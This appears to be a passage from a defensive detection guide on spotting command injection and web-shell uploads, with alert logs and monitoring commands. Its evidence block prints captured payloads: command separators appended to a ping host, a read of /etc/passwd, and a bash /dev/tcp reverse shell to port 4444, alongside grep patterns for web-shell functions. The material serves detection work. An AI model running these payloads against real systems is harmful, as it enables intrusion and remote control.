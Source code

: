 ### 2.3 Command Injection Detection

**Alert Pattern**:
```
[HIGH] Command Injection Detected
Time: 14:45:12
Source: 192.168.1.100
Target: /dashboard.php?page=network
Payload: google.com; id
Command Executed: ping -c 3 google.com; id
```

**Detection Logic**:
```bash
# Monitor for command separators
tail -f /var/log/apache2/access.log | grep -E "(;|&&|\|\||`|\$\()"

# Process execution monitoring
ausearch -k process_execution | grep -v "grep\|ps\|ls"

# Unusual process patterns
ps aux | grep -v "\[.*\]" | awk '{print $11}' | sort | uniq -c | sort -nr
```

**Evidence Collection**:
```bash
# Command injection payloads found
Host: google.com; id
Host: google.com; cat /etc/passwd  
Host: google.com; bash -c 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1'

# Reverse shell establishment detected
[CRITICAL] Outbound connection to 192.168.1.100:4444
[CRITICAL] Interactive shell session initiated
```

### 2.4 File Upload Monitoring

**Malicious Upload Detected**:
```
[HIGH] Suspicious File Upload
Time: 15:02:33
File: shell.php
Size: 1247 bytes
Content-Type: application/x-php
Uploader: 192.168.1.100
```

**File Analysis**:
```bash
# Monitor upload directory
inotifywait -m /var/www/html/uploads/ -e create

# Analyze uploaded files
file /var/www/html/uploads/*
strings /var/www/html/uploads/shell.php

# Web shell signatures
grep -E "(\$_GET|\$_POST|\$_REQUEST|system\(|exec\(|shell_exec\()" /var/www/html/uploads/*.php
```
